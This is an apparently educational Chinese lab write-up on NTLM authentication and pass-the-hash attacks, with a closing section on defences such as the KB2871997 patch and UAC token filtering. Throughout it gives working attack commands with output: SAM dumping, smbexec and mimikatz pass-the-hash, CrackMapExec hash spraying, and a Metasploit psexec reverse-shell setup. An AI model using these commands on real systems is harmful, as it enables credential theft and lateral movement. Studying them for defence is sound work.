





# 概览

[NTLM 协议](#ntlm-协议)

[认证过程](#认证过程)

[PTH](#pth)
- [本地账户和域用户pth的区别](#本地账户和域用户pth的区别)
- [修改uac设置](#修改uac设置)
- [小结](#小结)

[hash碰撞](#hash碰撞)

[kb2871997补丁](#kb2871997补丁)

[pth防御](#pth防御)


# NTLM 协议

NTLM协议是用于Windows中Client与Server身份验证的方法。用于下面两种场景：

- 用户使用本地账户向Server进行身份验证，Server当中的账户凭据存储在本地数据库中，即SAM文件

>1. SAM位于C:\Windows\System32\SAM
>2. 可以通过SYSTEM权限在regedit查看
>  `psexec.exe -i -s regedit.exe`
>  HKEY_LOCAL_MACHINE\\SAM\\SAM\\Domains\\Account\\Users
>3. 可以通过mimikatz或secretsdump本地解析
>```
>reg save hklm\sam sam.save
>reg save hklm\system system.save
>mimikatz.exe "lsadump::sam /sam:sam.save /system:system.save" "exit"
>secretsdump.py -sam sam.save -system system.save LOCAL

- 用户使用域用户向Server进行身份验证，此时域用户凭据不存储Server当中，而是存储在域控当中，即NTDS.DIT文件

  

# 认证过程


认证过程采取**Challenge/Response**机制，即质询/响应。需要经过以下三个过程：

- [Negotiation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b34032e5-3aae-4bc6-84c3-c6d80eadf7f2)：Client向Server发起Negotiation请求，并协商所支持的NTLM options



- [Challenge](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/801a4681-8809-4be9-ab0d-61dcfe762786)：Server向Client发送Challenge请求，Server向Client发送一个随机的64bit Challenge来验证Client身份



- Response：Client向Server发送Authenticate请求，Client用用户提供的密码hash加密Challenge发送给Server，Server通过本地数据库查询用户，如果存在就用查询到的用户密码hash加密Challenge，并于Client的加密结果比较，如果相同则验证成功，反之，验证失败



  

本地认证过程图如下



域认证过程图如下



  

两个过程共同点都是(1)由Server向Client发送Challenge；(2)Client用用户提供的hash加密Challenge并发送给Server

不同之处在于，本地认证中(3)Server直接从本地SAM Database查询用户对应的hash；而域认证则需要(3)Server调用NetLogon RPC创建Secure Channel，将Challenge和用户对Challenge的认证信息一起发送给DC。(4)DC根据所提供的用户信息从NTDS.DIT Database中查询用户hash

最后都使用从Database中查询的用户hash加密Challenge，再与用户提供的Challenge认证信息比较，如果结果相同，则验证成功，反之，验证失败

# PTH

PTH(pass the hash，哈希传递攻击)。Windows中NTLM协议和kerberos协议为了保护用户的明文密码，都是使用密码的hash来进行加密认证的，所以即使获取不了用户的明文密码，获取了hash也是能够进一步利用的
## 本地账户和域用户PTH的区别
以下我们用四个用户分别做了PTH的尝试，其中在域环境中User1和工作组管理员均成功，工作组普通用户normal和管理员组成员daem0nu失败

```bash
#域用户xie\User1
python smbexec.py xie/User1@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c4dab7a00c70c6b33154717b3c93a539 
#Impacket v0.11.0 - Copyright 2023 Fortra

#!] Launching semi-interactive shell - Careful what you execute
#C:\Windows\system32>whoami
#nt authority\system

#工作组普通用户normal
python smbexec.py normal@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b
#Impacket v0.11.0 - Copyright 2023 Fortra

#[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

#工作组管理员组用户daem0nu
python smbexec.py daem0nu@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b                                                                       1 ⨯
#Impacket v0.11.0 - Copyright 2023 Fortra

#[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

#工作组管理员
python smbexec.py administrator@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b                                                                 1 ⨯
#Impacket v0.11.0 - Copyright 2023 Fortra

#[!] Launching semi-interactive shell - Careful what you execute
#C:\Windows\system32>whoami
#nt authority\system
```

通过[domain-user-accounts-active-directory-user-account](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction#domain-user-accounts-active-directory-user-account)了解到管理员组的域用户拥有管理员的所有权限。管理员组的daem0nu执行失败的原因是[UAC(User Account Control)](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works)，管理员组中除了administrator外的用户，在登入windows时，会以标准用户权限完成大多数任务，这些用户与administrator不同的是，系统将这些用户的admin token移除了，以最低权限运行程序；同理因为administrator具有admin token所以UAC就不会限制其。当这些用户进行的操作涉及管理员权限时，系统会将用户从用户桌面转换到安全桌面，并弹出一个**是否同意操作的提示框**或者**需要输入管理员凭据的提示框**，如下图

![[credential prompt.png]]
![[consent prompt.png]]

## 修改UAC设置

[user-account-control-settings-list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration?tabs=reg#user-account-control-settings-list)中介绍了UAC设置，为了防止默认的管理员用户直接以高权限运行，我们可以打开其UAC认证，修改注册表
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`的`FilterAdministratorToken`为1即可，此时进行PTH攻击将失效

```bash
python smbexec.py administrator@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b           

#Impacket v0.11.0 - Copyright 2023 Fortra

#[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```


由于[UAC remote restriction](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction#how-uac-remote-restrictions-work)的限制，工作组中的其他管理员用户在使用类似SMB的远程服务时不会以完全管理员的身份连接，需要进行远程桌面登入到计算机才能提升权限。微软在[disable-uac-remote-restrictions](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction#how-to-disable-uac-remote-restrictions)指出了如何关闭UAC remote restriction

>1. win + r 打开 regedit
>2. 找到`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`目录
>3. 如果没有**LocalAccountTokenFilterPolicy**属性，就以该名字新建一个，类型为**DWORD**，将其值设为1

关闭之后daem0nu即可登入成功
```bash
python smbexec.py daem0nu@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b      
#Impacket v0.11.0 - Copyright 2023 Fortra

#[!] Launching semi-interactive shell - Careful what you execute
#C:\Windows\system32>whoami
#nt authority\system
```

## 小结
[UAC](https://en.wikipedia.org/wiki/User_Account_Control)是从windows vista版本引入的，所以vista之前的版本，管理员组的其他用户都能PTH；而vista之后的版本就无法PTH。管理员组中的域用户不受UAC限制，可以PTH

# Hash碰撞

获取到的域用户hash还可以进行Hash碰撞攻击来扩大影响，即检测域内是否有使用相同密码的其他机器存在

## 一些常用工具

### CrackMapExec

```bash
crackmapexec smb 10.0.0.133/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b                                                               130 ⨯
#SMB         10.0.0.133      445    WIN-HSTT0ETJU78  [*] Windows 6.3 Build 9600 x64 (name:WIN-HSTT0ETJU78) (domain:xie.com) (signing:True) (SMBv1:False)
#SMB         10.0.0.133      445    WIN-HSTT0ETJU78  [+] xie.com\administrator:c81ad28df9b2c069be535fd86434c03b (Pwn3d!)
#SMB         10.0.0.138      445    WIN7             [*] Windows 7 Professional 7601 Service Pack 1 (name:WIN7) (domain:xie.com) (signing:False) (SMBv1:True)
#SMB         10.0.0.138      445    WIN7             [+] xie.com\administrator:c81ad28df9b2c069be535fd86434c03b (Pwn3d!)
```

### MSF

```bash
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhosts 10.0.0.133-10.0.0.138
set smbuser administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b
run
```

### mimikatz

```bash
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:10.0.0.133 /ntlm:c81ad28df9b2c069be535fd86434c03b"
```
此时会获取另一个交互的cmd
```bash
C:\Windows\system32>whoami
#win7\administrator

C:\Windows\system32>dir \\10.0.0.133\c$
 #驱动器 \\10.0.0.133\c$ 中的卷没有标签。
 #卷的序列号是 F0F5-6A44

 #\\10.0.0.133\c$ 的目录

#2024/09/17  21:20    <DIR>          inetpub
#2013/08/22  23:52    <DIR>          PerfLogs
#2013/08/22  22:50    <DIR>          Program Files
#2013/08/22  23:39    <DIR>          Program Files (x86)
#2024/09/19  12:02    <DIR>          Users
#2024/10/04  12:04    <DIR>          Windows
#               0 个文件              0 字节
#               6 个目录 53,501,247,488 可用字节

```

# Impacket

```bash
python smbexec.py administrator@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b
```

# KB2871997补丁

微软为了缓解PTH攻击，为Windows 7, Windows 8, Windows Server 2008R2, and Windows Server 2012发布了[KB2871997](https://msrc.microsoft.com/blog/2014/06/an-overview-of-kb2871997/)补丁，内容如下
>1. 支持**Protected Users**用户组
>    - 位于该组内的用户只能通过k**erberos协议**进行身份认证，拒绝**NTLM, Digest Authentication, or CredSSP**。在windows 8中密码将不会被缓存
>    - kerberos协议只能使用强度较高的AES算法，不使用较弱的DES和RC4算法进行身份预认证
>    - 不能约束性委派和非约束委派

由于该补丁拒绝了NTLM协议进行身份认证，所以无法进行PTH。如果能获取到账户的AES hash，可以通过kerberos协议申请票据

> 2. Restricted Admin RDP
>    - 从windows8.1 和windows server 2012 R2起，微软引入了Restricted Admin RDP模式，它遵循最小权限原则
>    - 该模式对Administrators组内的用户起作用，而对Remote Desktop Users不起作用
>    - 在该模式提出之前，RDP登入需要用户提供用户名和密码之后才能获得交互式访问权限，此时用户的凭据会被存储在内存当中，如果机器沦陷，用户的凭据可以被获取
>    - 该模式之后，用户可以用现有的登录令牌来RDP，确保在目标主机上不留下用户的凭据

这一条是针对管理员组的用户，并没有对PTH进行防护，可以利用以下方式RDP
:::tip
需要用户是目标主机的本地管理员组中的用户才能登入
:::

```bash
mimikatz.exe
# privilege::debug
# sekurlsa::pth /user:administrator /domain:10.0.0.133 /ntlm:c81ad28df9b2c069be535fd86434c03b /run:"mstsc.exe /restrictedAdmin"
```

可以使用下面的命令开启Restricted Admin RDP

```bash
#添加注册表，0开启，1关闭
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
#查看
reg query HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin
```

> 3. LSA 凭据清除和其他改变
>    - 当用户退出登录的时候清除凭据，包括用户的明文密码，NT/LM password hash和 Kerberos TGT/Session key
>    - 新的SID
>       1. **LOCAL_ACCOUNT** – 任何本地用户会继承这个SID
>       2. **LOCAL_ACCOUNT_AND_MEMBER_OF_ADMINISTRATORS_GROUP** –任何管理员组内的用户会继承这个SID
>       管理员可以通过组策略设置**拒绝从网络上访问这台计算机**和**拒绝通过远程桌面服务登录**来保护用户
>       ```
>       win + r 打开gpedit.msc
>       计算机配置->windows设置->安全设置->本地策略->用户权限分配
>       可以找到上面两个设置，添加需要保护的账户即可
>       ```
>    - 从LSASS移除明文凭据
>这个更新阻止了LSASS中的每一个SSP存储用户的明文凭据，WDigest除外。为了正常使用登录功能，NT hash 和Kerberos TGT/Session key仍将继续存储在内存中。如果要[关闭WDigest存储凭据的功能](https://support.microsoft.com/zh-cn/topic/microsoft-%E5%AE%89%E5%85%A8%E5%85%AC%E5%91%8A-%E7%94%A8%E4%BA%8E%E6%94%B9%E8%BF%9B%E5%87%AD%E6%8D%AE%E4%BF%9D%E6%8A%A4%E5%92%8C%E7%AE%A1%E7%90%86%E7%9A%84%E6%9B%B4%E6%96%B0-2014-%E5%B9%B4-5-%E6%9C%88-13-%E6%97%A5-93434251-04ac-b7f3-52aa-9f951c14b649)通过设置注册表
>
>       ```bash
>       #0不存储，1存储
>       reg add HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
>
>       reg add HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
>       ```

# PTH防御

- 将`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`的`FilterAdministratorToken`为1，禁止本地管理员远程PTH
- 监控`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`的`LocalAccountTokenFilterPolicy`，防止其被修改为1
- 通过组策略设置**拒绝从网络上访问这台计算机**和**拒绝通过远程桌面服务登录**来保护用户
- 将敏感用户添加到**Protected Users**组中
# 参考

-  <https://en.hackndo.com/pass-the-hash/#protocol-ntlm>
- <https://msrc.microsoft.com/blog/2014/06/an-overview-of-kb2871997/>
- 《域渗透攻防指南》